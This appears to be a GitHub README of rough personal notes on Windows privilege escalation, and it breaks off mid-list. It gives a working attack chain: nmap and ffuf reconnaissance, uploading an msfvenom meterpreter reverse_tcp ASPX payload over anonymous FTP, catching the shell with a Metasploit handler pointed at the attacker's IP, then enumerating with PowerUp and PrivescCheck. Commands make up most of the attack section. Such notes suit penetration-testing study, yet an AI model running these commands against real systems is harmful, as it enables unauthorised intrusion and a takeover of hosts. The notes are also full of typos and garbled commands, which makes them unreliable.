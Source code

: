# winescalation
Windows Privilege Escalation

Intro:
Gaining unauthorized access to your windows and gaining more control than what is typically allowed. It is possible due to weakness or vulnerability in the system.

Example - Login to website with someone's account

2 types:

1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.

2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 

->It basically requires some type of privilages in your hand.

->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.

nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000

If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx 

now upload robensive.aspx

run metasploit listener

msfdb run 
uer exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost=yourip
set lport=445(as used before)
run

Now access robensive.aspx via browser and get meterpreter

getuid 
getprivs
##Completer Initiall Access##

Enumeration for privsec
->some known scripts:
PowerUp
WinPEAS
PrivescCheck
BeRoot
PayloadAllThings
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts

Practical part
shell
net localgroup administrators -> got  all users
net user "username"
exit

1.Powerup (google it)
wget from github
load
load powershell
help
powershell_import PowerUp.ps1
powershell_execurte Invoke_powerup(can cause problem to use  for powerups

2.Privescheck(google it)
powershell_import PrivescCheck.ps1
powershell_execurte Invoke_PrivescCheck

3.
